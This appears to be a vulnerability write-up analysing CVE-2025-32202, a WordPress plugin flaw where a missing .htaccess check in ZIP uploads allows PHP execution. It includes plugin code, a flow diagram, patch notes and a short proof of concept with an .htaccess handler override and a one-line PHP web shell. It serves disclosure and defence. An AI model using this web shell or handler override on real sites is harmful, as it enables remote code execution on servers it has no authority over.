


<!--more-->

## CVE & Basic Info

An **Arbitrary File Upload** vulnerability in Brian Batt - elearningfreak.com for the **Insert or Embed Articulate Content into WordPress** plugin allows uploading a **Web Shell** to the web server. This issue affects **Insert or Embed Articulate Content into WordPress**: from **n/a** to **4.3000000025**.

* **CVE ID**: [CVE-2025-32202](https://www.cve.org/CVERecord?id=CVE-2025-32202)
* **Vulnerability Type**: Arbitrary File Upload
* **Affected Versions**: <= 4.3000000025
* **Patched Versions**: 4.3000000026
* **CVSS severity**: Medium (9.1)
* **Required Privilege**: Editor
* **Product**: [WordPress Embed Articulate Content into WordPress Plugin](https://wordpress.org/plugins/insert-or-embed-articulate-content-into-wordpress/)

## Requirements

* **Local WordPress & Debugging**

  * [Virtual Machine](https://w41bu1.github.io/posts/2025-08-21-wordpress-local-and-debugging/)
  * [Docker](https://w41bu1.github.io/posts/2025-10-22-wordpress-local-and-debugging-docker/)
* **Plugin Version** - **Embed Articulate Content into WordPress**:

  * `4.3000000025` – **vulnerable**
  * `4.3000000026` – **patched**
* **Diff Tool (diff)** → [**Meld**](https://meldmerge.org/) or any diff tool.

## Cause

The vulnerability lies in the `articulate_has_php_file()` function at `/wp-content/plugins/insert-or-embed-articulate-content-into-wordpress/functions.php` due to insufficient checks, allowing an attacker to upload a `.htaccess` file to override handling in the uploads directory; as a result, subsequently uploaded files with attacker-chosen extensions (e.g., `.abc`, `.xnxx`) can be executed as PHP.


The patch added a condition to check for `.htaccess` on upload to prevent this vulnerability.

## Code Analysis

The plugin registers an action hook for logged-in users

```php
add_action( 'wp_ajax_articulate_upload_file', 'articulate_upload_ajax_file' );
```

So when accessing the endpoint `/wp-admin/admin-ajax.php` with param `action=articulate_upload_file`, the callback `articulate_upload_ajax_file` is invoked

```php {title="functions.php" data-open=true hl_lines=[109]}
function articulate_upload_ajax_file() {
	articulate_setup_php_ini();
	check_ajax_referer( 'articulate_upload_file' );

	if ( ! is_user_logged_in() || ! current_user_can( 'upload_files' ) || ! current_user_can( 'unfiltered_html' ) ) {
		die(
			json_encode(
				array(
					'OK'   => 0,
					'info' => __( 'You do not have permissions to upload this file. Contact your admin to get the unfiltered_html capability.', 'insert-or-embed-articulate-content-into-wordpress' ),
				)
			)
		);
	}

	$count_dirs = getDirs();
	// you can use WP's wp_handle_upload() function:
	$file = $_FILES['async-upload'];
	$dir  = untrailingslashit( getUploadsPath() );

	if ( empty( $_FILES ) || $_FILES['async-upload']['error'] ) {
		die(
			json_encode(
				array(
					'OK'   => 0,
					'info' => __(
						'Failed to move uploaded file.  Please check if the folder has write permissions.',
						'insert-or-embed-articulate-content-into-wordpress'
					),
				)
			)
		);
	}
	$chunk    = isset( $_REQUEST['chunk'] ) ? intval( $_REQUEST['chunk'] ) : 0;
	$chunks   = isset( $_REQUEST['chunks'] ) ? intval( $_REQUEST['chunks'] ) : 0;
	$fileName = isset( $_REQUEST['name'] ) ? sanitize_file_name( $_REQUEST['name'] ) : sanitize_file_name( $_FILES['async-upload']['name'] );
	$filePath = '' . $dir . '/' . sanitize_file_name( $fileName ) . '';
	// Open temp file
	$out = @fopen( "{$filePath}.part", $chunk == 0 ? 'wb' : 'ab' );
	if ( $out ) {
		// Read binary input stream and append it to temp file
		$in = @fopen( $_FILES['async-upload']['tmp_name'], 'rb' );
		if ( $in ) {
			while ( $buff = fread( $in, 4096 ) ) {
				fwrite( $out, $buff );
			}
		} else {
			die(
				json_encode(
					array(
						'OK'   => 0,
						'info' => __(
							'Failed to open input stream. Please check if the folder has write permissions',
							'insert-or-embed-articulate-content-into-wordpress'
						),
					)
				)
			);
		}
		@fclose( $in );
		@fclose( $out );
		@unlink( $_FILES['async-upload']['tmp_name'] );
	} else {
		die(
			json_encode(
				array(
					'OK'   => 0,
					'info' => __(
						'Failed to open output stream.  Please check if the folder has write permissions',
						'insert-or-embed-articulate-content-into-wordpress'
					),
				)
			)
		);
	}

	// Security check.
	$mime  = wp_check_filetype( $filePath );
	$mimes = get_allowed_mime_types( get_current_user_id() );
	if ( ! isset( $mime['type'] ) || ! in_array( $mime['type'], array_values( $mimes ) ) ) {
		die(
			json_encode(
				array(
					'OK'   => 0,
					'info' => __(
						'Failed to upload this file for security reasons. Contact your admin to ensure your user can access all mime types from get_allowed_mime_types.',
						'insert-or-embed-articulate-content-into-wordpress'
					),
				)
			)
		);
	}

	// Check if file has been uploaded
	if ( ! $chunks || $chunk == $chunks - 1 ) {
		// Strip the temp .part suffix off
		articulate_custom_rename( "{$filePath}.part", $filePath );
		// start extracting
		// unzip file
		$dir    = explode( '.', $fileName );
		$dir[0] = str_replace( ' ', '_', $dir[0] );
		$target = getUploadsPath() . $dir[0];
		$file   = $filePath;
		while ( file_exists( $target ) ) {
			$r       = rand( 1, 10 );
			$target .= $r;
			$dir[0] .= $r;
		}
		$arr = extractZip( $file, $target, $dir[0] );
		unlink( $filePath );
		do_action( hook_name: 'iea/uploaded_quiz', $arr, $target );
		$ok       = isset( $arr[4] ) ? $arr[4] : 0;
		$response = array(
			'OK'     => $ok,
			'info'   => $arr[0],
			'folder' => $arr[2],
			'path'   => $arr[1],
			'name'   => $arr[3],
			'target' => $target,
		);
		die( json_encode( $response ) );
	} else {
		die(
			json_encode(
				array(
					'OK'   => 1,
					'info' => __(
						'Uploading chunks!',
						'insert-or-embed-articulate-content-into-wordpress'
					),
				)
			)
		);
	}
	exit;
};
```

The `articulate_upload_ajax_file()` function handles AJAX file uploads for the plugin. Specifically:

1. Initialization & basic security

```php
articulate_setup_php_ini();
check_ajax_referer( 'articulate_upload_file' );
```

* `articulate_setup_php_ini()` — adjusts PHP settings (usually to allow larger uploads, longer timeouts, etc.).
* `check_ajax_referer()` — checks the nonce to prevent CSRF.

2. User capability checks

```php
if ( ! is_user_logged_in() || ! current_user_can( 'upload_files' ) || ! current_user_can( 'unfiltered_html' ) ) {
    die(json_encode([...]));
}
```

* Only logged-in users with `upload_files` and `unfiltered_html` capabilities can upload (Editor and above).
* If lacking permission, returns JSON error and exits.

3. Retrieve file info and storage path

```php
$count_dirs = getDirs();
$file = $_FILES['async-upload'];
$dir  = untrailingslashit( getUploadsPath() );
```

* `$_FILES['async-upload']` is the uploaded file from client.
* `getUploadsPath()` returns the plugin's base upload directory; `untrailingslashit()` removes trailing `/`.

4. Initial upload error check

```php
if ( empty( $_FILES ) || $_FILES['async-upload']['error'] ) {
    die(json_encode([...]));
}
```

* If no file or upload error code present, return error.

5. Handle chunked upload and filename

```php
$chunk    = isset( $_REQUEST['chunk'] ) ? intval( $_REQUEST['chunk'] ) : 0;
$chunks   = isset( $_REQUEST['chunks'] ) ? intval( $_REQUEST['chunks'] ) : 0;
$fileName = isset( $_REQUEST['name'] ) ? sanitize_file_name( $_REQUEST['name'] ) : sanitize_file_name( $_FILES['async-upload']['name'] );
$filePath = '' . $dir . '/' . sanitize_file_name( $fileName ) . '';
```

* Supports chunked uploads. `chunk` is current index, `chunks` total parts.
* `sanitize_file_name()` sanitizes filename to remove dangerous characters.
* `filePath` is the destination path in the plugin upload directory.

6. Open `.part` and write data (append or write)

```php {data-open=true}
$out = @fopen( "{$filePath}.part", $chunk == 0 ? 'wb' : 'ab' );
if ( $out ) {
    $in = @fopen( $_FILES['async-upload']['tmp_name'], 'rb' );
    if ( $in ) {
        while ( $buff = fread( $in, 4096 ) ) {
            fwrite( $out, $buff );
        }
    } else { die(...); }
    @fclose( $in );
    @fclose( $out );
    @unlink( $_FILES['async-upload']['tmp_name'] );
} else { die(...); }
```

* Opens temporary file `{$filePath}.part`: if `chunk == 0` open for write (`wb`), otherwise append (`ab`).
* Reads PHP tmp file (`tmp_name`) and writes to `.part` in 4096-byte blocks.
* After writing, closes files and deletes PHP temp file.

7. MIME/type check based on file extension

```php
$mime  = wp_check_filetype( $filePath );
$mimes = get_allowed_mime_types( get_current_user_id() );
if ( ! isset( $mime['type'] ) || ! in_array( $mime['type'], array_values( $mimes ) ) ) {
    die(json_encode([...]));
}
```

* `wp_check_filetype( $filePath )` returns MIME based on filename/extension (does not inspect binary content).
* `get_allowed_mime_types( $user_id )` returns allowed MIME types for the current user.
* If MIME not allowed, return security error.

8. When all chunks are uploaded (finished)

```php {data-open=true}
if ( ! $chunks || $chunk == $chunks - 1 ) {
    articulate_custom_rename( "{$filePath}.part", $filePath );
    $dir    = explode( '.', $fileName );
    $dir[0] = str_replace( ' ', '_', $dir[0] );
    $target = getUploadsPath() . $dir[0];
    $file   = $filePath;
    while ( file_exists( $target ) ) {
        $r       = rand( 1, 10 );
        $target .= $r;
        $dir[0] .= $r;
    }
    $arr = extractZip( $file, $target, $dir[0] );
    unlink( $filePath );
    do_action( hook_name: 'iea/uploaded_quiz', $arr, $target );
    ...
    die( json_encode( $response ) );
} else {
    die(json_encode(['OK'=>1,'info'=>'Uploading chunks!']));
}
```

* If not using chunking or current chunk is the last chunk:

  * `articulate_custom_rename()` renames `.part` → actual file.
  * Prepare `target` (folder) from filename (part before `.`) — used as extraction directory.
  * If `target` exists, append random digits to avoid overwrite.
  * Call `extractZip( $file, $target, $dir[0] )` to extract the zip into `target`. (This function likely handles ZIP; plugin-dependent logic.)
  * Delete original zip via `unlink( $filePath )`.
  * Trigger hook `iea/uploaded_quiz` for plugin/third-party processing.
  * Return JSON response with info (OK, folder, path, name, target).
* If still uploading chunks, return JSON notifying upload in progress.

---

```php {title="functions.php" data-open=true hl_lines=[10]}
function extractZip( $fileName, $target, $dir ) {
	add_filter( 'admin_memory_limit', 'articulate_run_admin_memory_limit_hook', 100, 1 );
	// admin_memory_limit hook is called in wp_raise_memory_limit function that is called in unzip_file function.
	$arr      = array();
	$unzipper = new Quiz_Unzip( true );
	$unzip    = $unzipper->unzip_file( $fileName, $target );

	if ( $unzip ) {
		wp_ajax_quiz_check_folder( $target );
		if ( articulate_has_php_file( $target ) ) {
			$arr[0] = '<span style="color:red">' . sprintf( __( 'ZIP upload successful, but we found a PHP file that is not allowed in your content directory. Contact support at %s', 'insert-or-embed-articulate-content-into-wordpress' ), '<a style="color: black" target="_blank" href="https://www.elearningfreak.com/upload-file/">www.elearningfreak.com</a>' ) . '</span>';
			articulate_rrmdir( $target );
			$arr[4] = 0;// OK = 0
			$arr[1] = '';
			$arr[2] = $dir;
			$arr[3] = '';
		} else {

			$file   = getFile( $target, true );// true to get return value as an array of detail
			$arr[0] = 'Upload Complete!';
			if ( $file['status'] == 'valid_html_file_found' || $file['status'] == 'index_html_file_found' || $file['status'] == 'other_html_file_found' ) {
				$arr[0] = __( 'Upload Complete!', 'insert-or-embed-articulate-content-into-wordpress' );
				$arr[4] = 1;// OK = 1
			} elseif ( $file['status'] == 'no_html_file_found' ) {
				$arr[0] = '<span style="color:black">' . sprintf( __( 'ZIP upload successful, but we were unable to find an HTML file. Either increase your WP_MEMORY_LIMIT, define your FS_METHOD as DIRECT, or contact support at %s', 'insert-or-embed-articulate-content-into-wordpress' ), '<a style="color: black" target="_blank" href="https://www.elearningfreak.com/upload-file/">www.elearningfreak.com</a>' ) . '</span>';
				articulate_rrmdir( $target );
				$arr[4] = 0;// OK = 0
			}

			$arr[1] = getUploadsUrl() . $dir . '/' . $file['file_name'];
			$arr[2] = $dir;
			$arr[3] = $file;
		}
	} else {
		$arr[0] = __( 'File upload failed', 'insert-or-embed-articulate-content-into-wordpress' );
		$arr[4] = 0;// OK = 0
	}
	return $arr;
}
```

The `extractZip()` function handles **unpacking the uploaded ZIP file** and also performs **safety checks** (specifically to detect .php, .phtml, .phar), returning the result information as an array `$arr`. Specifically:

1. Perform unzip

```php
$unzipper = new Quiz_Unzip( true );
$unzip    = $unzipper->unzip_file( $fileName, $target );
```

* Instantiate `Quiz_Unzip` (likely a wrapper around WordPress's `unzip_file()`).
* Extract `$fileName` into `$target`.
* `$unzip` returns **true** on successful extraction.

2. Check for dangerous PHP files

```php
if ( articulate_has_php_file( $target ) ) {
    ...
}
```

* Calls `articulate_has_php_file()` to **scan the whole extracted directory** for files with `.php`, `.phtml`, `.phar`.

```php {data-open=true hl_lines=[10,11,12]}
function articulate_has_php_file( $dir ) {
    $dir = rtrim( $dir, '/' );
    if ( is_dir( $dir ) ) {

        $dir_handle = opendir( $dir );
        if ( $dir_handle ) {
            while ( $file = readdir( $dir_handle ) ) {
                if ( $file != '.' && $file != '..' ) {
                    if ( !is_dir( $dir . '/' . $file ) &&
                        (strpos($file, '.phtml') !== false ||
                         strpos($file, '.php') !== false && $file != 'relay.php' ||
                         strpos($file, '.phar') !== false) ) { // Added condition for .phar files
                        return true;
                    } else {
                        $found = articulate_has_php_file( $dir . '/' . $file );
                        if ( $found ) {
                            return true;
                        }
                    }
                }
            }
            closedir( $dir_handle );
        }

        return false;
    }
    return false;
}
```

> [!BUG]
> Besides `.phtml`, `.php`, `.phar` an attacker can use `.htaccess` to override handling in the uploads directory; as a result, subsequently uploaded files with arbitrary extensions chosen by the attacker (e.g., `.abc`, `.xnxx`) can be executed as PHP.
>
> ```.htaccess
> <IfModule mod_php.c>
>    <Files "*.abc">
>        SetHandler application/x-httpd-php
>    </Files>
> </IfModule>
> ```

**If a dangerous file is found:**

```php
$arr[0] = '<span style="color:red">ZIP upload successful, but we found a PHP file...</span>';
articulate_rrmdir( $target ); // Remove the entire directory
$arr[4] = 0;
$arr[1] = '';
$arr[2] = $dir;
$arr[3] = '';
```

* Report error to the user.
* Call `articulate_rrmdir()` to **remove the entire extracted directory** (to remove malicious files).
* Set `OK = 0` (failure).

**If NO dangerous PHP file is found:**

```php
$file = getFile( $target, true ); // Retrieve main file (HTML)
```

* `getFile()` locates the main HTML file (the Articulate content entrypoint).
* Check the status of the found HTML file.

```php
if ( $file['status'] == 'valid_html_file_found' || ...) {
    $arr[4] = 1; // OK = 1
} elseif ( $file['status'] == 'no_html_file_found' ) {
    articulate_rrmdir( $target ); // Remove directory if no HTML found
    $arr[4] = 0;
}
```

3. Return result information

```php
$arr[1] = getUploadsUrl() . $dir . '/' . $file['file_name'];
$arr[2] = $dir;
$arr[3] = $file;
return $arr;
```

* `$arr` contains information such as:

  * `$arr[0]`: message
  * `$arr[1]`: file URL
  * `$arr[2]`: directory
  * `$arr[3]`: file detail info
  * `$arr[4]`: success/failure status (OK)

## Flow


graph TD

A["POST /wp-admin/admin-ajax.php?action=articulate_upload_file"] --> B["articulate_upload_ajax_file()"]
B --> C{"check_ajax_referer('articulate_upload_file') valid?"}
C -- No --> Z["Return JSON error"]
C -- Yes --> D{"User has 'upload_files' && 'unfiltered_html'?"}
D -- No --> Z
D -- Yes --> E["Handle uploaded file → save to {$filePath}.part"]
E --> F["Combine chunks & rename → articulate_custom_rename('{$filePath}.part', $filePath)"]
F --> G["extractZip($filePath, $target, $dir)"]
G --> H["Quiz_Unzip->unzip_file($filePath, $target)"]
H --> I{"articulate_has_php_file($target) detect .php/.phtml/.phar ?"}
I -- Yes --> J["articulate_rrmdir($target) → delete folder → return error"]
I -- No --> K["(❌ Missing check for .htaccess file)"]
K --> L["Attacker uploads ZIP containing .htaccess"]
L --> M[".htaccess overrides Apache handler in upload dir"]
M --> N["Subsequent uploaded files with arbitrary extension (e.g., .abc, .xyz) executed as PHP"]
N --> O["→ Arbitrary File Upload → Remote Code Execution (RCE)"]

%% Patch branch
K --> P["✅ [Patched] articulate_has_php_file() adds '.htaccess' check"]
P --> Q["Upload blocked if .htaccess detected"]



## Proof of Concept (PoC)

1. Create the following directory structure:

```sh
bypass
.
├── .htaccess
├── index.html
└── rce.abc
```

* `.htaccess`

```.htaccess
<IfModule mod_php.c>
    <Files "*.abc">
        SetHandler application/x-httpd-php
    </Files>
</IfModule>
```

Create a rule so that files with `.abc` in the current directory and subdirectories can be uploaded and will be executed as `.php`

* `rce.abc`

Contains a web shell

```php
<?php system($_REQUEST["cmd"]) ?>
```

2. Zip the folder

```sh
zip -r bypass.zip bypass
```

3. Upload the created zip file



> [!INFO]
> This is the feature described in the plugin documentation: we create a post, add this widget, then perform the zip file upload.
> 

Request and Response in BurpSuite:



4. RCE with web shell


## Conclusion

The **CVE-2025-32202** vulnerability arises because the **Insert or Embed Articulate Content into WordPress** plugin does not sufficiently check the types of files inside extracted archives, omitting the case of `.htaccess`. This allows an attacker with **Editor** privileges to upload a `.htaccess` file to override handlers in the uploads directory. As a result, later uploaded files, even with arbitrary extensions (like `.abc`, `.xyz`), can be treated as PHP, leading to **Remote Code Execution (RCE)**.
The **4.3000000026** patch added a check for `.htaccess`, preventing handler override in the uploads directory and eliminating this exploitation vector.

## Key Takeaway

* Rigorously check all file types that can affect server behavior, especially `.htaccess`.
* Don't rely only on file extensions; validate both MIME type and actual file content.
* Do not allow users — even those with Editor privileges — to upload archives that can contain executable content.
* Clearly separate user upload directories from directories where PHP can be executed.
* Regularly audit and update plugins; small filtering mistakes can lead to severe RCE.

## References

[Arbitrary File Upload](https://book.hacktricks.wiki/en/pentesting-web/file-upload/index.html)

[ WordPress Insert or Embed Articulate Content into WordPress Plugin <= 4.3000000025 is vulnerable to Arbitrary File Upload ](https://patchstack.com/database/wordpress/plugin/insert-or-embed-articulate-content-into-wordpress/vulnerability/wordpress-insert-or-embed-articulate-content-into-wordpress-plugin-4-3000000025-arbitrary-file-upload-vulnerability)
